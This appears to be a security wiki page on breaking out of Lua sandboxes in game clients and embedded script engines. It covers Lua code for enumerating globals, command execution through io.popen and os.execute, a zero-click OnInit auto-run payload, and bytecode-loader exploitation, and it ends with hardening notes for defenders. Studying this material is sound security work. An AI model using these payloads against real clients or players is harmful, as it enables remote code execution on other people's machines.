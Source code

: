 # Bypass Lua sandboxes (embedded VMs, game clients)


This page collects practical techniques to enumerate and break out of Lua "sandboxes" embedded in applications (notably game clients, plugins, or in-app scripting engines). Many engines expose a restricted Lua environment, but leave powerful globals reachable that enable arbitrary command execution or even native memory corruption when bytecode loaders are exposed.

Key ideas:
- Treat the VM as an unknown environment: enumerate _G and discover what dangerous primitives are reachable.
- When stdout/print is blocked, abuse any in-VM UI/IPC channel as an output sink to observe results.
- If io/os is exposed, you often have direct command execution (io.popen, os.execute).
- If load/loadstring/loadfile are exposed, executing crafted Lua bytecode can subvert memory safety in some versions (≤5.1 verifiers are bypassable; 5.2 removed verifier), enabling advanced exploitation.

## Enumerate the sandboxed environment

- Dump the global environment to inventory reachable tables/functions:

```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out
local function dump_globals(out)
  out("=== DUMPING _G ===")
  for k, v in pairs(_G) do
    out(tostring(k) .. " = " .. tostring(v))
  end
end
```
```
- If no print() is available, repurpose in-VM channels. Example from an MMO housing script VM where chat output only works after a sound call; the following builds a reliable output function:

```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
  -- Some engines require enabling an audio channel before speaking
  H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
  return function(msg)
    H.Say(label or 1, msg)
  end
end

function OnMenu(menuNum)
  if menuNum ~= 3 then return end
  local out = ButlerOut(1)
  dump_globals(out)
end
```
```
Generalize this pattern for your target: any textbox, toast, logger, or UI callback that accepts strings can act as stdout for reconnaissance.

## Direct command execution if io/os is exposed

If the sandbox still exposes the standard libraries io or os, you likely have immediate command execution:

```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
```
Notes:
- Execution happens inside the client process; many anti-cheat/antidebug layers that block external debuggers won’t prevent in-VM process creation.
- Also check: package.loadlib (arbitrary DLL/.so loading), require with native modules, LuaJIT's ffi (if present), and the debug library (can raise privileges inside the VM).

## Zero-click triggers via auto-run callbacks

If the host application pushes scripts to clients and the VM exposes auto-run hooks (e.g., OnInit/OnLoad/OnEnter), place your payload there for drive-by compromise as soon as the script loads:

```lua
function OnInit()
  io.popen("calc.exe") -- or any command
end
```
```
Any equivalent callback (OnLoad, OnEnter, etc.) generalizes this technique when scripts are transmitted and executed on the client automatically.

## Dangerous primitives to hunt during recon

During _G enumeration, specifically look for:
- io, os: io.popen, os.execute, file I/O, env access.
- load, loadstring, loadfile, dofile: execute source or bytecode; supports loading untrusted bytecode.
- package, package.loadlib, require: dynamic library loading and module surface.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, and hooks.
- LuaJIT-only: ffi.cdef, ffi.load to call native code directly.

Minimal usage examples (if reachable):

```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
```
## Optional escalation: abusing Lua bytecode loaders

When load/loadstring/loadfile are reachable but io/os are restricted, execution of crafted Lua bytecode can lead to memory disclosure and corruption primitives. Key facts:
- Lua ≤ 5.1 shipped a bytecode verifier that has known bypasses.
- Lua 5.2 removed the verifier entirely (official stance: applications should just reject precompiled chunks), widening the attack surface if bytecode loading is not prohibited.
- Workflows typically: leak pointers via in-VM output, craft bytecode to create type confusions (e.g., around FORLOOP or other opcodes), then pivot to arbitrary read/write or native code execution.

This path is engine/version-specific and requires RE. See references for deep dives, exploitation primitives, and example gadgetry in games.

## Detection and hardening notes (for defenders)

- Server side: reject or rewrite user scripts; allowlist safe APIs; strip or bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Client side: run Lua with a minimal _ENV, forbid bytecode loading, reintroduce a strict bytecode verifier or signature checks, and block process creation from the client process.
- Telemetry: alert on gameclient → child process creation shortly after script load; correlate with UI/chat/script events.

## References

- [[https://appsec.space/posts/aion-housing-exploit/|This House is Haunted: a decade old RCE in the AION client (housing Lua VM)]]
- [[https://memorycorruption.net/posts/rce-lua-factorio/|Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws]]
- [[https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html|lua-l (2009): Discussion on dropping the bytecode verifier]]
- [[https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16|Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)]]

